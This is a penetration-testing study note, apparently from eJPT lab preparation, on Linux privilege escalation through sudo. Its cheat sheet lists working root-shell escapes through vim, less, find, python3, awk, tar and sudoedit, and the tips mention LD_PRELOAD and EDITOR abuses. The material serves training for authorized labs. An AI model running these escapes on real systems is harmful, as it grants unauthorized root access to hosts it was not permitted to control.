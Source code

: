 ## Practical tips
- Always start with sudo -l and read it carefully; many paths to root depend on exact sudoers details.
- NOPASSWD on any program that can execute commands (editors/pagers/interpreters) is usually game over; check GTFOBins for a ready escape.
- Prefer spawning /bin/sh or /bin/bash with -p to preserve privileges.
- If only a subset of commands is allowed, try to chain a root shell via those commands (e.g., less, man, vim, find, tar).
- Watch for RUNAS misconfigurations; sometimes you can run as root even if default user is another account.
- Environment-based attacks (LD_PRELOAD, LD_LIBRARY_PATH, EDITOR/VISUAL) only work if sudoers permits it (env_keep or SETENV). Don’t assume they work by default.
- If systemctl/journalctl are allowed as root, their pager can spawn a shell with !/bin/sh.
- Document the exact sudo -l output and the minimal steps required for escalation; it’s often the fastest path on Linux hosts during eJPT labs.

## Minimal cheat sheet (one-screen flow)
```
# 1) Enumerate
whoami; id
sudo -l
sudo -V | sed -n '1,25p'

# 2) Quick wins
sudo -s                          # if NOPASSWD: ALL
sudo /bin/bash -p                # if /bin/bash allowed
sudo -u root /bin/sh             # if RUNAS permits

# 3) GTFOBins (examples)
sudo vim -c ':!/bin/sh'
sudo less /etc/hosts   # then type: !/bin/sh
sudo find / -exec /bin/sh \; -quit
sudo python3 -c 'import os; os.system("/bin/sh")'
sudo awk 'BEGIN {system("/bin/sh")}'
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# 4) sudoedit (if allowed)
SUDO_EDITOR="/bin/sh -c /bin/sh" sudo -e /etc/hosts

# 5) Verify/clean
id
bash -p || sh -p
```

## Summary
This module focuses on Linux privilege escalation via sudo. The core workflow is to enumerate sudo permissions (sudo -l), interpret NOPASSWD/PASSWD and RUNAS settings, and map any allowed commands to known shell-escape techniques (GTFOBins). Common escalation vectors include editors (vim/vi), pagers (less/man), interpreters (python, awk, perl), and utilities (find, tar). Special cases like sudoedit and environment-variable abuses (LD_PRELOAD, EDITOR) can also yield root under permissive sudoers configurations. Verify privileges with id, preserve them with -p shells, and clean up artifacts in lab environments.